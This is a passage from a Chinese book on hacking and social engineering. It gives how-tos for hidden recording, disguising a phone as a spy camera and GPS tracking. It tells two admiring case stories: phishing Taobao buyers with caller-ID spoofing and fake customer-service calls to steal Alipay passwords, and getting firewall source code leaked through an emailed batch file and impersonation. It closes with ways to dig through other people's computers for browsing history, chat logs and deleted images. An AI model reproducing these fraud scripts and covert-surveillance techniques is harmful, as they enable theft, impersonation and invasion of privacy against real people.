当你看到这小节的时候，一定会惊呼：“老兄！录音吗？我也会啊！我的 MP3 就有录音功能……”是的，你无需我多言就能列出大量具有录音功能的数码产品，如手机、MP3（MP4）、iPod、微型收音机、录音笔、DC、DV、学习机、PSP……实际上，录音可以无处不在，你只需将录音的主要物理器件取出，并配上电源，选择安装到桌子、椅子、茶杯、墙等等这些物体上，它们就全变成录音的物件了。

录音是如何进行的？它是将声音信号记录在媒质上的过程。从窃密的用途上来看，录音需要音质优秀、隐蔽性高、稳定性高的物件来达到理想的效果。在所有常见的数码录音设备中，录音笔是一个不错的选择；它可放入书中免遭怀疑，如图4所示。


能防范录音吗？我想大概不能，除非你看到某个电子产品放在某个地方有点奇怪，那就得注意；又或者你有专门的检测设备，但看上去不太可能。

##### 3.5.2.2 影像监控——就在你的身后

伙计，你确定在看这本书的时候身边没有人吗？哦！你不必左右观察，天上的卫星正“看”着你呢。

“天知、地知、我知”，意思是做的某事没有第三者知道，因而使得秘密可以无人知晓；但若“天”泄了密的话，就不再是秘密了。虽然目前的卫星监控对物体还有一段距离，但未来几年，卫星技术的发展将有可能把影像精确到可以发现你的头发是否有异样！这是可能的，并且正在发生。

影像有两种介质，一是可进行打印的照片，二是可播放的视频媒体。数码产品的生产商家彼此竞争，推动了影像的高速发展，如手机上的摄像头已达到500万像素，而存储技术的发展又使得视频不间断拍摄的时间能更长。令人难以置信的是，微技术可使这些部件成为针孔大小。

如果你想把手机变成间谍器材，那很简单。首先，将你手机上的灯光与声音震动全部关闭，开启手机摄像的延时拍摄，如设置成延时 5 秒拍摄并存储，再用东西将手机伪装起来放到合适的地方。这时你的手机已经成为拍摄监控器材了。若你了解电子电路，善于 DIY，还可以动手将手机进行拆卸，取出核心拍摄部件并选择更隐蔽的地方，使监控更安全。看上去，影像监控离你并不遥远。

#### 3.5.3 GPS 跟踪与定位

GPS 是全球定位系统（Global Positioning System）的缩写，这是一个由覆盖全球的 24 颗卫星组成的卫星系统。这个系统可以保证在任意时刻，地球上任意一点都能同时观测到 4 颗卫星，以保证卫星可以采集到该观测点的经纬度和高度，以便实现导航、定位、授时等功能。这项技术可以用来引导飞机、船舶、车辆以及个人，安全、准确地沿着选定的路线，准时到达目的地。

全球卫星定位系统由三部分组成：空间部分——GPS 星座；地面控制部分——地面监控系统；用户设备部分——GPS 信号接收机。

在用户设备部分，对我们有作用的是 GPS 信号接收机，它可以作为独立的模块用作不同用途。GPS 有两种使用方式，导航与监控。导航即置于汽车、飞机、手机上的导航系统，如图 5 所示。


图5

监控便是用作跟踪与定位了，它包括几个部分：一个是 GPS 定位终端，用于安装到目标物体。终端有两根天线，一根是 GPS 天线，用来接收 GPS 位置信号，并将接收的 GPS 定位信号储存到终端上。另一根是 GSM 天线，作用是将 GPS 天线接收到的定位信号发送到监控运营商的 IP 服务器里，然后便能通过服务器来查看定位信息的具体位置。

终端一般还装有备用电瓶，防止目标物体电瓶线脱离，而可持续发出信号。至于外接屏幕，多数是监控中心用以观察或是向监控物体发送相关调度信息。终端一般配有 GPRS 卡，即移动无线上网卡，作用是将 GPS 天线接收到的 GPS 信号利用无线上网的方式把间断的定位信号发送到监控运营商的服务器。GSM 天线是无线上网的扩展天线，可以五秒钟一个信息点，因而你可看到监控或导航物体的移动。

监控中心的工作方式很简单，定位信号发送到固定 IP 的服务器，相关 GPS 软件对信号进行解析，并使信号显示在电子地图中，方便看到监控物体的移动。如果信号没有经过特殊处理，黑客们就可以截获并伪造信号。监控信息的查看有两种方式：B/S 与 C/S 方式，通常 C/S 比较方便。不过，监控与导航的区别是，它需要付费才能使用其服务。

## 第三章 商业间谍窃密技法

### 3.6 职业骗子图库与分享版

你能在淘宝网买到50元的金士顿U盘吗？并且在第二天就免费收到这个U盘？如果你买到了，请一定得小心，《淘宝网的盗窃者们》这个案例一定会让你惊讶！切记：天上掉的馅饼不是那么好啃的。另一个案例极具讽刺意味——防火墙被窃，你将在《谁泄露了防火墙源代码？》中看到企业内部的脆弱不堪一击，安全产品只能给人心理上的安慰！切记：它们无法真正地保护你。

#### 3.6.1 淘宝网的盗窃者们

2007年一个炎热的夏天，大学枯燥的生活让人感觉乏味，东南大学的秦力也不例外。自从购置一台电脑之后，便用来在宿舍玩网络游戏。秦力与电脑似乎天生就有一种缘分，不下几个月便玩到游戏最高级别！糟糕的是，他落下了一大堆的课程，对此，他在博客中写道：传统教育比妓女更加毫无生机。

更不幸的事情是，秦力在另一个游戏上花费了几十万的游戏装备，身上的钱所剩无几了。没办法，某些游戏等级通常需要用金钱来衡量。

面对这样的窘境，秦力需要一些钱，他甚至想过，弄到钱之后绝不在网游上浪费时间了，“和漂亮的女生聊天是个不错的兴趣。”这是秦力最近的QQ签名。

如果说网络中哪些最抢钱的话，那就是网游与网银。接下来的几天，秦力想到一个“好点子”，他将目标瞄上淘宝购物网站，这是国内流行的个人拍卖交易网站。秦力花了几天时间弄清了这个购物网站整个处理操作步骤，甚至利用搜索引擎寻找到了之前的淘宝网骗子们惯用的欺骗伎俩。

秦力操纵几个淘宝账户给自己指定的主要账户进行信用与好评率的增加，并从互联网找到几张图片加上商品描述信息，便在淘宝网站开设了一家网上数码店，一切注册信息都使用别人的。

##### 3.6.1.1 一线生机

原本想利用支付宝过程中的交易漏洞来窃取交易口令，但中间发生了一件事，秦力意外地从国外论坛找到一个打电话的网络软件，软件不但免费，而且还能任意修改来电显示号码。它的原理是利用了网络IP电话网关技术（即电话→网关（在这里破解）→VOIP服务器→电信服务器→电话网）。

> “能保护真实信息不被泄露的东西，它通常很不错。”秦力后来是这样对我说的。

“嗯，我的方法是利用可任意修改来电显示号码的软件进行欺骗。这个软件我测试过，曾将拨出的电话号码修改成教授的手机号，这让我的同学吓了一跳。”秦力回忆道。“接下来，我打算冒称淘宝客服，为了不那么容易就被发现，我要知道客服人员如何处理典型性的问题，以确保欺骗的持久性。”

秦力在淘宝网站找到客服联系方式：http://my.taobao.com/mytaobao/misc/contact.jhtml，在这个网页找到了服务热线：0571-88157858。甚至秦力从其他信息中获知到最佳的拨打时间是下午四点左右。他的目的很简单，就是需要知道客服们如何处理典型的请求与求助信息。顺利的是，经过几次交谈，他就能够模仿淘宝客服们回应客户们的要求了，如称呼、语气、态度等。接下来的欺骗该如何做呢？

##### 3.6.1.2 交易

或许是价格低得离谱的商品吸引了爱占小便宜的买主，他在站内收到一条提示信息，有一位买家上钩了，他们开始交谈。

**买主**：“你好，那个金士顿迷你U盘1G只要50块钱吗？”

**秦力**：“是的！我的网店讲信誉！你能见到比官方报价还低，没有别的原因，我只希望你购买商品后，能将我的网店介绍给身边更多的人！并且我保证，全部商品都为十成新！”

**买主**：“你们会不会是骗子啊？”

**秦力**：“不是！！这是广告促销形式，如果你不相信，我马上将金士顿U盘以特快形式发货给你，并且不收任何费用！最后，我希望你能将我的网店介绍给你5个朋友，如何？”

**买主**：“嗯，嗯，可以！但你不能反悔！否则我会向淘宝客服举报你的，不过，真是广告促销吗？”

**秦力**：“我以淘宝信用保证本店诚信，不废话了，发你的地址来吧。”

**买主**：“北京市海淀区中关村***号，100081，刘颖。你还要我电话号码不？”

**秦力**：“可以的，从今天EMS快递发货，你明天就可以收到，到时我会打电话问你收到没。”

**买主**：“真的吗？太谢谢了，我的电话号码是：010-825*****。”

**秦力**：“好的，那我下线发货了。”

秦力笑了，“国人总寄望于会有免费的午餐，这就像免费的盗号软件偷偷留下的后门。”他如此解释，如图6所示。


图6

接下来，秦力将已准备好的金士顿U盘用特快发给了刘颖；当然，价格不止100元。第二天，秦力拨打了对方的电话。

**秦力**：“您好，你是刘颖吗？”

**刘颖**：“嗯，你是……”

**秦力**：“哦，我是淘宝店的店主，昨天发的特快，你收到了吗？”

**刘颖**：“呵呵，收到了！收到了！是新的，太谢谢你啦，我马上用支付宝打钱给你！”

**秦力**：“嗯，对了，顺便说个事，淘宝网刚给注册用户发了一封账户验证的信息，你要去看一下，不然下次不方便买东西了，我先挂了。”

**刘颖**：“好，我马上去看看。”

##### 3.6.1.3 最后的陷阱

“现在那位买家开始信任我了，我提醒他注意邮件，在他看来，这不是一个过分的要求。那封邮件，是我伪造的。”秦力轻描淡写地说。秦力伪造了钓鱼网页，并向买家的邮箱发送了一封钓鱼邮件，如图7所示。


图7

钓鱼邮件是为了窃取买家淘宝的账户，里面的虚假淘宝账户更新网页无论输入什么口令都会提示“淘宝账户已更新”。大概几分钟后，秦力访问了虚假淘宝站点的数据库，这个数据库保存了用户的“验证码口令”。很幸运，第一条记录显示的就是买家的口令。

现在让我们整理一下头绪，想一想秦力为何要这样做？首先他成功与买家建立了信任关系，并获得相关信息。这其中，他建立信任是有目的的，他可用指示性的语言让整个过程很自然，不容怀疑。

获得淘宝口令还不算成功，真正的是支付宝！还记得“任意修改来电显示号码”的软件吗？现在看秦力如何大展身手。

“我已经弄到可信的交易信息与口令了，现在我只要模仿淘宝客服专业的语气拨通买主的电话弄到支付宝口令就搞定了。”秦力得意地说。

利用网络电话软件，秦力修改了来电显示号码为：0571-88157858，并拨通了买主刘颖的电话。

**秦力：**“您好，我是淘宝网客服，请问您是刘颖先生吗？”

**刘颖：**“嗯，你是淘宝客服？”

**秦力：**“是的，您可以看看来电显示号码，请对照淘宝网上的官方号码。”

**刘颖：**“我看下……嗯，有什么事吗？”

**秦力：**“是这样的，由于淘宝网的技术员在更新客户数据库时，不小心出现了误操作，导致部分客户的数据错乱。这不是大问题，您不用担心，我需要向您核实正确的数据；接下来我说的数据有误时，希望您能更正，好吗？”

**刘颖：**“核实数据？什么意思？”

**秦力：**“嗯，简单说，就是确认你的注册信息以及交易记录是否正确，希望您能配合我们工作，好吗？我们客服连夜加班，可能还要拨打更多的电话核实。”

**刘颖：**“这样啊，可以的！”

**秦力：**“真实姓名：刘颖，地址：北京市海淀区中关村***号，邮政编码：100081，是正确的吗？”

**刘颖**：“对，没有问题。”

**秦力**：“电话号码：010-825*****，手机号码：1390741****，正确吗？”

**刘颖**：“嗯！”

**秦力**：“淘宝账号：niannian**，密码：36df4714，正确吗？”

**刘颖**：“嗯！”

**秦力**：“支付宝账号niannian**@gmail.com，登录密码：515541，支付密码：632521，正确吗？”

**刘颖**：“密码不对，密码应该是845637！”

**秦力**：“845-637，嗯，密码都是一样吗？更正了……那么最后一笔交易时间是：2007年5月16号，商品是金士顿U盘一件，价格50元，正确吗？”

**刘颖**：“对！”

**秦力**：“太感谢了！并且，请一定要原谅我们工作人员的失误，好吗？”

**刘颖**：“没关系的，你们淘宝办事很有效率，不错！”

**秦力**：“嗯！淘宝网祝您下一次的购物顺利，我接着去找下一个会员进行数据核实了，谢谢您，再见！”

**刘颖**：“不用谢。”

就这样，秦力窃取了支付宝账户，余额中有6700元。他没有马上取出，而是用相同的手法在一个星期搞定6个支付宝账户，并在同日进行分次取出。秦力事后是这样说的：“整个过程颇为刺激，运营商们并不为此买单。”

> **Lizqib 三语**

这是网络钓鱼与社交工程的混合运用。由于淘宝客服并无什么特别，使得秦力易于模仿并冒称身份。在最后套取口令的过程中，秦力巧妙地整合了所有已知的信息，并构造出“数据核实”的理由，将主要获取的信息夹杂于询问之中，利用同情心获取了买主的信任。

#### 3.6.2 谁泄露了防火墙源代码？

社会经历丰富，也就意味着精于人性之道。22岁的刘防在高中辍学后，先后做过食品销售、商场员工、电子设备维护员等，这些经历使得他精于与各式各样的人打交道。但在接下来的5年，他疯狂迷上了计算机，尤其对黑客技术感兴趣，并涉足了地下黑客经济。他接的业务也很多，如对私服网站进行分布式拒绝服务攻击（DDOS）、编写针对性的网银键盘记录工具、游戏装备盗取洗钱等。

但刘防对重复性攻击感到厌倦。显然，有刺激的事物往往令人更感兴趣。这次，他盯上了一套防火墙，由北京中关村恒天公司研发。据说这套防火墙一公布便在业界大受好评，刘防则不以为然，在他看来，防火墙的源代码才能说服他。

##### 3.6.2.1 销售部的后门

刘防从对外公布的防火墙软件中的菜单栏“帮助”处找到了恒天公司销售部与市场部的联系电话，接着他便以某公司采购部经理王刚的身份拨通了恒天防火墙销售部的电话。

**恒天公司（以下简称恒）**：“您好，这里是恒天公司销售部。”

**王刚（以下简称王）**：“嗯，我是北京亚太机电股份有限公司采购部经理王刚，我们公司需要500份防火墙软件产品，我参考了网上的防火墙横向评测，再三考虑后决定选择你们恒……”

恒：“王经理，我们的防火墙有三种不同的版本，分别为个人版、专业版和企业版。如果你选择企业版，它的单价是88元，总价为4.4万；如果你批发购买，那么价格相对优惠，仅3.2万。”

王：“嗯，没有高于我们公司原始估价，不过我们公司网络环境相当复杂，你们公司是否可以定制一套，实现封堵公司员工聊天与下载的功能？”

恒：“这个……请让我问问软件开发部，请稍等。”

王：“好的。”

……

恒：“技术人员说了，防火墙本身自带了过滤功能，只要过滤掉相应的端口就可以封堵了。”

王：“原来是这样，我没有问题了，但我们公司网络管理员建议我把有关内部网络情况的文档发给你，让你们技术员检查防火墙的可行性。你有电脑吗？我想现在就传送给你，稍后我还有一个会议急需参加。”

恒：“有的，我的电子邮箱是wenyu014@163.com，你现在就发过来？”

王：“是的，等一下……（这位“王刚”将一个文件夹与一个批处理文件打包并用邮箱发到指定的邮件地址）我发过去了，1个压缩包，你解压到D盘，要放在D盘才能打开。”

恒：“嗯，解压了，是那个‘北京亚太机电股份有限公司局域网环境.bat’文件吗？”

王：“对，你可以查看下，看看是否可以打开，可以打开的话，你就发一份给你们技术员。”

恒：“可以打开，只闪了一个黑窗口。”

王：“那很正常，很好，你的工号是多少呢？等三天后，我给你答复，联系人还是你吗？”

恒：“587421，刘雨芝。暂时联系的是我，销售部在下月才正式招人。”

王：“好的，刘小姐，谢谢你！”

恒：“王经理，不必客气，再见！”

计划很顺利。刘防成功利用销售部员工之手在恒天公司内网电脑开启了一个共享文件夹，文件夹名以压缩包的“Wall”命名，里面包含了一个文件夹与批处理文件。不过批处理文件已消失了，其作用就是开启Wall为共享文件夹，并将另一个文件夹中的DOC文档复制一份到当前目录，并自删除批处理文件。

##### 3.6.2.2 合作商的阴谋

防火墙源代码是软件公司的命根子，只有软件开发人员才得以接触，但刘防对这些技术人员一无所知，他需要弄到一些基本信息，以及寻找一个可信的理由。这次他以百度市场拓展部经理王祺的身份拨通了恒天公司市场部的电话。

市场部：“您好，这里是恒天公司市场部。”

王祺：“我是百度市场拓展部经理王祺，贵公司有合作意向吗？”

市场部：“百度？是在北京市北四环西路58号理想国际大厦吗？全球最大的中文搜索引擎？”

王祺：“是的，我们公司计划整合国内多家尖端软件产品进行合作，以提升企业的品牌与影响力。目前国内共有三家上市软件公司参与，不知恒天公司……”

市场部：“我们恒天企业才运营半年，在业界也暂无广泛的知名度，能与贵公司合作是再好不过了，但合作的决策权不在我们市场部，这个我们需要内部讨论才能再作商议，恐怕现……”

“在无法作出决定，是否可以商定一个日期见面呢？”

王祺：“从网上的用户投票结果与横向评测来看，恒天防火墙软件的人性化设计是目前国内最好的，也是有潜力的。耳闻国外风险投资商有意考虑恒天公司投资，从长远的发展来看，我们合作对彼此都有好处。百度是国内一流的搜索引擎，我们的推广可使你们获得更广的销售用户群，并且恒天公司只需捆绑免费的百度搜索工具条。就目前来说，广告交换可使恒天公司快速走上平稳的发展。”

市场部：“是的，对于一家未上市的公司来说，在国内的发展有一定阻力。我们大量的资金都花费在软件研发上，在推广上有压力。大部分用户都不知道我们的防火墙软件，认知度很低。”

王祺：“这个我能理解，正是因为这样的压力，我们百度公司选择的是在美国成立并上市。这样吧，我给你们恒天公司5天的考虑时间再作决定，如何？”

市场部：“可以！可以！”

王祺：“嗯，你是市场部的负责人吗？”

市场部：“是的，市场部，车仁表。”

王祺：“那么，车经理，我想了解恒天公司的大致情况。虽然我们李彦宏董事长早有此发展计划，但我需要一些资料说服部分反对的股东，因此麻烦提供你们公司整体运营情况，如季度的销售额，还有软件研发人员的资料。关于合作事宜，百度公司将在明早8:30召开股东大会对此作出决定。”

市场部：“这么快？好的，好的！资料我应该如何发给你呢？邮件还是传真？”

王祺：“传真过来吧，百度传真号码：010-254545635。最后，我们明天早上9点联系你，如何？”

市场部：“可以的，谢谢！”

大概半个小时后，刘防很顺利地拿到一份排版格式清晰的传真文件，其中就有5份软件研发人员的详细资料。看上去，资料来源于人力资源部。刘防很确定，恒天公司的市场负责人一定被“合作”冲昏了大脑，竟然把公司财务损益都发过来了。

#### 3.6.2.3 消失的100万源代码

很自然，刘防花了几分钟整理传真过来的信息后，打算冒称恒天公司市场部另一位负责人陈琛，并拨通了恒天公司软件研发部技术人员蔡迪的电话。

蔡迪：“哪位？”（蔡迪语气沉沉地问，似乎不喜欢接听陌生人拨打过来的电话。）

陈琛：“是软件研发部的蔡迪吧？我是市场部负责人陈琛，你不久前知道了公司将与百度合作的情况吧？”

蔡迪：“好像是吧，我不确定。”

陈琛：“嗯，百度会投资我们，人力资源最近会作一个大变动，公司将增加一批新员工与设备，你所在的服务器工作站打不打算置换？有这个打算的话，我跟财务部小王交涉下。”

蔡迪：“换吧！换吧！最近机箱动不动就有怪声！”（蔡迪对工作站的机子似乎有极度的不满，迫于企业资金紧张，他也就未提起，现在是个好机会。）

陈琛：“很好，你把源代码放到咱们内网做个备份，以免丢失了。嗯，我特意在销售部的机子开了个共享，你把源码放上去，下午6点新机器将从电脑城运送过来，机器装好后再删掉源码。”

蔡迪：“好的，但是源码会不会泄露出去了？”（蔡迪有些担心。）

陈琛：“没事儿的；现在4点，再过两小时你就删掉，而且我们机子都在内网，何况不是还有咱们的防火墙保护着吗？少担心了，你要对你的防火墙信任。”

蔡迪：“OK！知道了！”蔡迪挂掉了电话。

紧接着，刘防再次拨通恒天公司销售部刘雨芝的电话……

> 刘：“王经理？”（刘雨芝似乎看了来电显示号码，一下认出来了）

王：“嗯，我是采购部经理王刚，我在途中想起了一件事，所以打电话问一问。”

刘：“请说。”

王：“我似乎发错文件了，除了发给你‘北京亚太机电股份有限公司局域网环境.doc’文件，我还发送了其他的文件。你能检查一下吗，看看有没有多余的文件？”

刘：“好的，我查查，是D盘的Wall文件夹吧？”

王：“对！”

刘：“嗯，在Wall文件夹里的另一个文件夹包含了一些打不开的文件，你指的是那些文件吗？”

王：“对，能发给我吗？那是我其他的采购项目表，需要用相应的软件才能打开的。（王刚经理很诚恳地解释）要是项目表丢了，那我工作也可能丢了。”

刘：“这样啊，不要紧，我马上打包用邮件发给你。（接着便传来了键盘的敲打声……）我发过去了，王经理，您打开邮箱看看收到没有？”

王：“收到了！邮件名是‘客户邮件’吗？谢谢你了。”（王刚有意地提高了声调）

刘：“嗯，没问题的话我先挂了，王先生，别忘了防火墙的采购！”

王：“好的，再见！”

就这样，拨打三次电话的刘防搞定了防火墙源代码。不过为什么销售部的人说打不开那些文件呢？很简单，她没有安装编程软件，所以打不开。随后，刘防用网名“魔术影子”将全部的防火墙源代码公布在某个黑客论坛，激起了论坛的疯狂顶帖。第二天，门户站点竟相继报道了这一代码泄露事件，网警对此束手无策。

> **LZQ16三叶草**

我想你已看到使用多种专业知识组合式入侵进行源代码窃取。事实上，也许不应该说是“偷”，而是内部员工主动将源码送出来的。这一案例清楚地告诉我们，再好的防火墙也抵挡不住高明的社会工程学师的攻击。同样，掌握大量相关的知识是非常有必要的：你是否会营销？你是否了解企业管理？是否了解诸多软件产品的常见功能与使用？哦！你还了解心理学吗？如果没有就赶紧学习吧！

## 第四章 刨根问底挖隐私

- 让系统泄露你曾经的秘密
- 应用软件也捣乱
- Web 2.0，个性化服务背后的威胁
- 实名制，致命的大漏洞
- 你的隐私正在被偷拍窃听？
- 案例攻击与应用


### 4.1 让系统泄露你曾经的秘密

当你粗心大意地离开电脑，甚至连计算机也没关闭，你知道会有怎样的后果吗？若有个心怀恶意的外来者偷偷溜进你的房间，在键盘上轻敲几个按键，也许他就偷取了你的数据，或者从系统中窥探了你的隐私……听上去有点恐怖，但这很容易做到。

#### 4.1.1 芝麻开门，你去过哪些网站？

首先我得介绍Cookies，这是一种能够让网站服务器与客户端的硬盘或内存进行少量数据存取的技术。当你浏览某个网站时，由Web服务器在你硬盘上生成一个非常小的文本文档，它可以记录你的用户ID、密码、浏览过的网页、停留的时间等信息。

当你再次来到该网站时，网站通过读取Cookies得知你的相关信息，就可以做出相应的动作，如在页面显示欢迎你的标语，或者让你不用输入ID、密码就直接登录等等。

对于黑客来说，Cookies是很早的玩意儿。就隐私泄露来说，我们只关心其中一点——“浏览过的网页”。那么Cookies保存在哪里呢？通常其保存路径为 `C:\Documents and Settings\用户名\Cookies` 目录，打开后，我们很容易发现曾经的网页浏览历史，如图1所示。


大家一旦明白了就想马上删掉吧？这其中还有一个文件在泄露着秘密，那就是 `index.dat`。`index.dat` 文件是一个隐藏文件，它记录着浏览器访问过的网址、访问的时间等信息，本质上就是记录Cookies信息的文件，是IE临时文件的副本。即使你从浏览器清除了网络记录，但这个文件依然存在！

如何查看这个文件的信息呢？使用 index.dat 文件查看器即可查看到，如图2所示。


显然，网络历史记录没有完全清除，那么 `index.dat` 文件具体在哪里呢？我们可以使用“冰刃”工具的“查找”功能找到，如图3所示。如何删除 index.dat 文件呢？很简单，这需要你切换成另一个管理员的身份进行删除。


图3

#### 4.1.2 你最近碰过哪些文件？

如果你是孩子的父母，我想你对此颇有兴趣，如何在孩子的电脑里找到他们曾经的操作痕迹呢？你至少可通过下列方法了解他们是否在不务正业。如果你是位上司的话，我想你已经找到减薪的理由了。那么，如何做呢？

##### 4.1.2.1 我的文档历史

这个方法很简单，能让你查看最近编辑、使用过的文件。用鼠标点击“开始”菜单，即桌面左下的按钮，并选择“文档”便可查看到，如图4所示。


图4

##### 4.1.2.2 最后的时间戳

想获知最近访问了哪些文件，我们可以搜索最近访问、修改、创建的文件。这个功能可是 Windows 自带的，你可以按快捷键 Win+F 键与 Ctrl+F 键等调出搜索窗口，并点击“什么时候修改的”；然后指定一个具体的日期，如1月24号；并点击“搜索”即可等待结果了，如图5所示。

但这种搜索有时候满足不了高级需求，我们可以使用专业工具完成，如 XYplorer 本地搜索工具，它能指定多个条件进行搜索，如图6所示。

## 第四章 刨根问底挖隐私


##### 4.1.2.3 应用软件的蛛丝马迹

如果对方将机密文件删除掉了，我们还能找到文件的痕迹吗？哪怕是一个文件名也可以。别担心，我们仍然有办法，因为文件最终需要专门的工具打开，比如 Microsoft Word 才能打开 DOC 文档，暴风影音能打开音频与视频文件，WinRAR 才能打开压缩文件等……这取决于计算机中是否安装有相应的应用软件；当你使用这些应用软件时，它们会好心地保存你打开某个文档的历史记录。

那么怎样才能看到这些历史记录呢？这很简单，打开相应的应用软件，点击“文件”菜单，你就会在某些应用软件的菜单下面看到历史记录，如图7所示。


#### 4.1.3 缩略图，你的图片删干净了吗？

如果不想私密图片让别人看到，请最好把图片目录都删干净！为什么？Thumbs.db 文件可能会泄露你的图片。这是因为：当你使用缩略图方式查看图片时，系统会在当前目录生成一个隐藏的 thumbs.db 数据库文件，它保存了当前目录图片所有的缩略图。由于系统默认时不会显示隐藏的文件，因此大多数的人不易发现。

若想看到隐藏的 thumbs.db 文件，请打开任意文件夹，在“工具”菜单点击“文件夹选项”，转到“查看”标签，取消“隐藏受保护的操作系统文件（推荐）”选项，确定以后就可以看到隐藏的 Thumbs.db 文件了，如图8所示。

那么，Thumbs.db 文件存放了什么呢？我们需要用到缩略图查看器工具来打开。运行工具并打开 Thumbs.db 文件，瞧，还没删干净呢！如图9所示。

“Thumbcache_xxxx.db”文件集中保存在 \User\[用户名]\AppData\Local\Microsoft\Windows\Explorer 目录中，大家可以注意一下。


#### 4.1.4 相片中的 Exif 信息

Exif（Exchangeable Image File Format）是可交换图像文件格式的缩写，是专门为数码相机的照片设定的，可以记录数字照片的属性信息和拍摄数据。换言之，我们可以通过 Exif 信息获知数码相机在拍照时的信息。

> Exif 主要记录了四类信息：

- 日期和时间信息：数码相机将记录当前日期和时间，并把这些信息记录在元数据标签里。
- 相机设置：这包括静态信息，如相机型号、生产厂商及每张照片改变的信息（方位、光圈、快门速度、焦距、测光模式和 ISO 感光速度等信息）。
- 照片拍摄地的位置信息：可以由 GPS（全球卫星定位系统）接收器连接到数码相机上，以此提供相关全球定位信息。
- 描述和版权信息：一些数码相机高端机型会在相机上提供允许用户编写这部分信息的功能。

如何查看数码相机拍摄的相片的 Exif 信息呢？你可以进入图片“属性”，转到“摘要”标签，并选择“高级”按钮，就可以看到图片的 Exif 信息了，如图10所示。

但通过这种方式查看的 Exif 信息并不是全部的内容，我们还可以使用专门的 Exif 信息工具查看，这里推荐一个在线的 Exif 信息查看网站 http://www.camerasaummary.com；进入网站后直接上传数码相机的拍摄相片即可，稍等一会便会显示详细的 Exif 信息，如图11所示。


## 第四章 刨根问底挖隐私

#### 4.1.5 最后的复制记录

有时候，我们为了避免重复性地输入一串文字，或者为了口令的安全性采取了复制粘贴的操作，但信息仍可让外人看到！因为复制的信息还存放在剪贴板中。怎样看到剪贴板中的信息呢？在“开始”菜单选择“运行”，输入“Clipbrd”并回车，我们就能看到剪贴板中的信息了，如图12所示。


图12

防止的方法很简单，再复制一段无关紧要的内容即可，呵呵！

### 4.2 应用软件也泄密

在日常生活中，大多数的人习惯用 Microsoft Office 等办公软件处理文字与表格；用 ACDSee 浏览图片；用 Firefox 浏览器查看网页；用下载工具迅雷下载软件……我们现在的网络生活中，还真离不开这类应用软件。但你可知道，这些应用软件在你使用的时候也在泄露着你的秘密。

#### 4.2.1 谁在临时目录偷偷留下了备份？

为了防止意外断电或突发性的事件导致应用软件被关闭与数据丢失，它们很“智能”地提供了自动备份与恢复的功能。但有时，自动备份会成为隐私的泄露点。例如微软公司的字处理软件 Word，一旦经过意外的断电便在文件当前目录生成了具有隐藏属性的备份文件（需要取消文件隐藏才可看到），如图13所示。


图13

在图13中，5个扩展名为 .tmp 的文件便是自动备份的文件了，但系统默认是不会显示出隐藏属性的文件，使得不易发现。如果你想查看文件内容，只要将扩展名改为 Word 文档扩展名 .doc 即可。

## 第四章 刨根问底挖隐私

一般来说，多数的应用软件都会在当前目录产生备份文件，什么？你没找到？别担心，在系统中还有一个目录也保存着临时的备份文件，目录通常是 C:\Documents and Settings\用户名\Application Data。这里主要存放了应用软件的数据，包括必要的安装与自动恢复的文件，比如我们就能在这个目录找到 Word 生成的恢复文件，如图14所示。


图14

接着将自动恢复的文档扩展名改为 .doc，再用 Word 打开文件即可查看其内容了。另外，我们还需注意系统的两个临时目录，C:\Documents and Settings\用户名\Local Settings\Temp 和 C:\Documents and Settings\用户名\Local Settings\Temporary Internet Files，它保存了 IE 的临时文件。

#### 4.2.2 生成的文件，你有注意到么？

应用软件除了偷偷给你留下了备份，更糟糕的是，它可能还会泄露你的账户口令、聊天记录、网页记录、下载历史等等……有的还可能在注册表中留下信息。那么应用软件一般怎么记录这些信息呢？大部分应用软件都可以让使用者对其自身的功能进行设置，然后通过配置文件来保存需要记录的信息。

配置文件主要保存了相关应用软件启动时需要读取的设置参数，比如当你设置了 QQ 为自动登录状态时，QQ 会生成一个配置文件保存登录相关的信息。

有哪些软件会有严重的泄密事故呢？这里以国内使用者众多的 QQ 软件进行说明。任何 QQ 号登录后，QQ 都会在安装目录生成一个以号码为文件名的文件夹，我们可以在 QQ 的默认安装目录 C:\Program Files\Tencent\QQ 找到。这里以我的 QQ 号码为例，进入目录后就能看到保存有聊天记录的 MsgEx?.db 文件，如图15所示。


图15

## 第四章 刨根问底挖隐私

IE 漏洞很多，现在更多的朋友选择了火狐浏览器，这个开源软件先后参与了 Google 与百度的合作，意味着将来有可能称雄中国浏览器市场，那么它会有泄密事故吗？


在 `C:\Documents and Settings\用户名\Local Settings\Application Data\Mozilla\Firefox\Profiles\8c6ugkr3.default\Cache` 这个目录，我们可以发现很多以 CACHE 为名的无扩展名的缓存文件，使用记事本打开后，很容易就找到了网页浏览的历史记录，如图18所示。


像这样捣乱的应用软件还有很多，如 FlashFXP、PCAnywhere 等软件也把登录账户口令留下来了，给入侵者带来了方便。应用软件，它们在偷偷泄露你的隐私，你注意到了么？

### 4.3 Web 2.0 人性化服务背后的隐忧

什么是 Web 2.0？很简单，它真正体现了庞大的互联网价值，免费、自由、共享可以说是 Web 2.0 最明显的特点。

在 Web 2.0 网络中，人人都有机会成为互联网新的明星！你可以交到比现实之中更多的真诚朋友；你写的博客可瞬间数百万人查看；你可以随时随地用手机写网络日志；你无须计算机的软件也可以网络办公；你发的主题可通过 Web 2.0 在网络世界乃至现实之中产生强大的舆论影响……

噢，这绝非天方夜谭！否则的话，你一定是网络菜鸟。举例吧，你可以像记者一样向 CnBeta 投一个主题，如果内容是相当独到热门的话题，那真是太棒了！你的主题将会有很多知名网站、博客转载，这种影响力已超过了传统媒体。再比如，你的博客每天都和大家分享有趣的事，只要你的内容受大众欢迎，很有可能你将拥有一大批忠实的 Fans 订阅你的 RSS。假若你再向优酷上传了一段奇怪的 UFO 现象，我想你得做好准备，因为有很多的记者打算把你的新闻放在报纸的头版上……

Web 2.0 看上去是那么美好和受人欢迎，但如果有恶意的攻击者利用呢——这会像一碗美味的红烧牛肉里爬出小虫一样带来恐惧。

#### 4.3.1 像 Google 那般的令人恐怖

我无意把 Google 描述成令人担心的危险动物，事实上，它是我一个特别好的伙伴，甚至每天我都无法离开它；否则的话，我不能通过 Gmail 收到朋友的邮件；不能在第一时间通过 RSS 知道最新的 IT 技术；不能用 SNS 通过手机向我报告每天的日程与计划；不能再用 Picasa Web 方便的相册服务；不能再随时存储网络书签；不能再通过 Google Earth 找到家；不能再随时写网络日志……毫无疑问，离开了 Google 便无法享受那特别的免费服务，更重要的是，Google 保存了我一切的数据。

